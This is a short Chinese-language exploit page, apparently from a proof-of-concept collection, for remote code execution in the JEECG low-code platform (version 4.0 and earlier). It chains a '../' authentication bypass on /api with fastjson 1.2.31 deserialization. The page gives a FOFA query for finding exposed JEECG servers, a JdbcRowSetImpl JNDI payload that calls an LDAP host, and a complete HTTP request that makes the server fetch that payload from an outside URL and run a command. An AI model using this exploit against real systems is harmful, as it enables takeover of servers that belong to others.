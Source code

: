 ## Jeecg-jeecgFormDemoController存在JNDI代码执行漏洞

Jeecg (J2EE C ode G eneration)是一款基于代码生成器的低代码开发平台, 使用 JEECG 可以简单快速地开发出企业级的 Web 应用系统。目前官方已停 止维护。 JEECG 4.0 及之前版本中，由于 /api 接口鉴权时未过滤路径遍历，攻击 者可构造包含 ../ 的 url 绕过鉴权。

因为依赖 1.2.31 版本的 fastjson， 该版本存在反序列化漏洞。攻击者可对 /api/../jeecgFormDemoController.do?interfaceTest 接口进行 jndi 注入攻 击实现远程代码执行



## fofa

```
app="JEECG"
```

## poc

创建如下远程文件，其内容为fastjson代码执行的payload

```
        {
            "a":{
                "@type":"java.lang.Class",
                "val":"com.sun.rowset.JdbcRowSetImpl"
            },
            "b":{
                "@type":"com.sun.rowset.JdbcRowSetImpl",
                "dataSourceName":"ldap://10.66.64.89:1389/8orsiq",
                "autoCommit":true
            }
        }
```

```
POST /api/../jeecgFormDemoController.do?interfaceTest= HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
cmd: whoami
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 77

serverUrl=http://xxxxxxxx:8877/jeecg.txt&requestBody=1&requestMethod=GET
```

![image-20240526195416290](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405261954336.png)

![image-20240526195357757](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405261953813.png)